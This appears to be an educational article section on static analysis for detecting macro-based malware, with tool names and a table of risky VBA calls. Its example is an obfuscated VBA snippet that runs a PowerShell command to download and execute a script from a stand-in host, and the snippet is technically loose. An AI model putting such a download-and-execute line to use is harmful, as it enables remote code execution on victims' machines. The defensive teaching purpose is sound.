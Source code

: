 ## Detection Techniques for Macro-Based Malware  

Cybersecurity researchers employ a multi-layered approach to detect macro-based malware, combining static, dynamic, and heuristic techniques to counteract evolving evasion strategies. These methods are designed to identify malicious behavior at various stages of the attack lifecycle, from initial code analysis to runtime monitoring and behavioral anomaly detection. Below is a detailed exploration of these techniques, supported by structured examples and practical insights.  

---

### **1. Static Analysis**  
Static analysis involves examining the structure and content of a macro-enabled document without executing it. This method is effective for identifying suspicious patterns in VBA code, embedded objects, and document metadata.  

#### **Key Techniques**:  
- **Code Inspection**: Analyzing VBA scripts for obfuscated strings, high-risk API calls (e.g., `Shell`, `CreateObject`), or encoded payloads.  
- **Metadata Analysis**: Checking document properties (e.g., author names, timestamps) for inconsistencies or signs of tampering.  
- **Embedded Object Scanning**: Identifying suspicious embedded objects (e.g., OLE streams, embedded executables) that may contain malicious payloads.  

#### **Tools and Frameworks**:  
- **OLEtools**: A Python-based tool that parses OLE2 files (e.g., .doc, .xls) to extract and analyze VBA streams, detect obfuscation, and flag suspicious API usage.  
- **Viper**: A malware analysis platform that supports static analysis of macro code and integrates with YARA rules for pattern matching.  

#### **Example**:  
A macro containing the following obfuscated code might be flagged by static analysis tools:  
```vba
Dim s As String: s = Chr(80) & Chr(111) & Chr(119) & Chr(101) & Chr(114) & Chr(83) & Chr(104) & Chr(101) & Chr(108) & Chr(108)  
CreateObject(s).Run "cmd /c powershell.exe -Command IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')"
```  
Here, the obfuscated string "PowerShell" and the use of `IEX` (Invoke-Expression) are red flags for malicious intent.  

#### **Table: Common High-Risk API Calls in VBA**  
| API Call          | Purpose                          | Risk Level |  
|--------------------|----------------------------------|------------|  
| `Shell`            | Executes system commands         | High       |  
| `CreateObject`     | Instantiates COM objects         | High       |  
| `DownloadFile`     | Downloads files from URLs        | High       |  
| `Write`            | Writes data to files             | Medium     |  

---

